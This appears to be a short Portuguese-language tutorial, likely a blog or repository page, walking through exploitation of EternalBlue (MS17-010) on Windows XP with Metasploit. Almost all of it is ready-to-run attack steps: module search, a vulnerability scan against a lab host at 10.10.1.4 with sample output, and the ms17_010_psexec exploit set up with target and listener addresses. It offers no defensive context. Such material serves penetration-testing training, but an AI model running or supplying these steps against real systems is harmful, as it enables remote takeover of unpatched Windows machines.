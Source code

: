 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


>O EternalBlue é um exploit de ataque cibernético desenvolvido pela Agência de Segurança Nacional dos Estados Unidos da América. Foi divulgado pelo grupo de hackers Shadow Brokers em 14 de abril de 2017, um mês depois que a Microsoft lançou correções para a vulnerabilidade. by : Wikipédia

**Explorando o EternalBlue WindowsXP**


- Primeiro vamos entrar no metasploit logando com o msfconsole e procurar a Vulnerabilidade em questão.

```ruby
msfconsole
search eternalblue
```

or

```ruby
msfconsole
search ms17-010
```

---

- Agora temos que ter o 'host' do alvo, para verificarmos se o alvo é um target Windows XP e se está vulnerável. Nesse caso o host é : _10.10.1.4_


```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.10.1.4
exploit
```

- Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


### Exploitation do host que identificamos que esta vulneravel


```ruby
back

use exploit/windows/smb/ms17_010_psexec

set RHOST 10.10.1.4

set LHOST 10.10.1.2

run
```